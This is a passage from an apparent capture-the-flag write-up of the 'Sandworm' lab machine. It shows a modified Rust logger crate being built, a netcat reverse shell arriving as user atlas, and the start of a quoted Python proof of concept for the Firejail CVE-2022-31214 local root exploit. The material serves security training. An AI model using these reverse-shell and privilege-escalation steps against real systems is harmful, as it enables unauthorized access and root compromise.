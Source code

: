 ## Building modified logger module

```bash
silentobserver@sandworm:~$ cp lib.rs /opt/crates/logger/src/
```

```bash
silentobserver@sandworm:/opt/crates/logger$ cargo build
   Compiling autocfg v1.1.0
   Compiling libc v0.2.142
   Compiling num-traits v0.2.15
   Compiling num-integer v0.1.45
   Compiling time v0.1.45
   Compiling iana-time-zone v0.1.56
   Compiling chrono v0.4.24
   Compiling logger v0.1.0 (/opt/crates/logger)
    Finished dev [unoptimized + debuginfo] target(s) in 9.44s
```

## Reverse Shell returned as user atlas (escaped jail)

```bash
 nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.10] from (UNKNOWN) [10.129.168.138] 37198
bash: cannot set terminal process group (3668): Inappropriate ioctl for device
bash: no job control in this shell
atlas@sandworm:/opt/tipnet$
```

## PE - Firejail Exploitation (CVE-2022-31214)
After escaping from the jail user atlas is part of the jailer group. Atlas user is able to execute firejail.
```bash
-rwsr-x--- 1 root jailer 1777952 Nov 29  2022 /usr/local/bin/firejail
```

```bash
atlas@sandworm:/opt/tipnet$ groups
groups
atlas jailer
```
Checking the version of firejail to see if any CVE's exist.
```bash
atlas@sandworm:/opt/tipnet$ firejail --version
firejail --version
firejail version 0.9.68
```
Firejail version is 0.9.68 which is vulerable. Below is a copy of the python code to exploit the CVE.
```python
#!/usr/bin/python3

# Author: Matthias Gerstner <matthias.gerstner@suse.com>
#
# Proof of concept local root exploit for a vulnerability in Firejail 0.9.68
# in joining Firejail instances.
#
# Prerequisites:
# - the firejail setuid-root binary needs to be installed and accessible to the
#   invoking user
#
# Exploit: The exploit tricks the Firejail setuid-root program to join a fake
# Firejail instance. By using tmpfs mounts and symlinks in the unprivileged
# user namespace of the fake Firejail instance the result will be a shell that
# lives in an attacker controller mount namespace while the user namespace is
```